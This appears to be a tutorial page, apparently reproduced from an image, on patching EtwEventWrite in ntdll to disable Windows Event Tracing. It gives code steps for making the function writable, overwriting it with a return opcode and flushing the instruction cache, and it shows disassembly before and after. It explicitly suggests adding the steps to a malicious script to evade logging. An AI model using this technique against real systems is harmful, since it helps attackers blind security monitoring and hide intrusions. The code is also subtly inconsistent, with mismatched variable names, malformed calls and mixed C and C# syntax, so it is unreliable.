 # Patching tracing functions

ETW is loaded from the runtime of every new process, commonly originating from the CLR (Common Language Runtime). 
Within a new process, ETW events are sent from userland and issued directly from the current process. An attacker 
can write pre-defined opcodes to an in-memory function of ETW to patch and disable functionality.

ETW is written from the function `EtwEventWrite`. The disassembly of that function:

```text
779f2459 33cc          xor    ecx, esp
779f245b e8501a0100    call   ntdll!_security_check_cookie
779f2460 8be5          mov    esp, ebp
779f2462 5d            pop    ebp
779f2463 c21400        ret    14h 
```

`ret 14h` will end the function and returns control to the calling application.

At a high level, ETW patching can be broken up into five steps:

* Obtain a handle for EtwEventWrite
* Modify memory permissions of the function
* Write opcode bytes to memory
* Reset memory permissions of the function (optional)
* Flush the instruction cache (optional)

## Code

`EtwEventWrite` is stored within `ntdll`. Load the library and obtain the handle using `GetProcAddress`:

```text
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

The permission of the function is defined by the `flNewProtect` parameter; `0x40` enables `X`, `R`, or `RW` access:

```text
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```

Now the function has the permissions required to write to it, and the pre-defined opcode to patch it is known. Because 
of writing to a function and not a process, `Marshal.Copy` can be used to write the opcode.

```text
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```

Clean to restore memory permissions as they were:

    VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);

Make sure the patched function will be executed from the instruction cache:

```text
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

Compile these steps together and append them to a malicious script or session. 

After the opcode is written to memory, view the disassembled function again:

```text
779f23c0 c21400         ret    14h
779f23c3 00ec           add    ah, ch
779f23c5 83e4f8         and    esp, 0FFFFFFF8h
779f23c8 81ece0000000   sub    esp, 0E0h
```

Once the function is patched in memory, it will always return when `EtwEventWrite` is called. And that means it might 
not be a good idea as it may restrict more logs than desired for integrity.


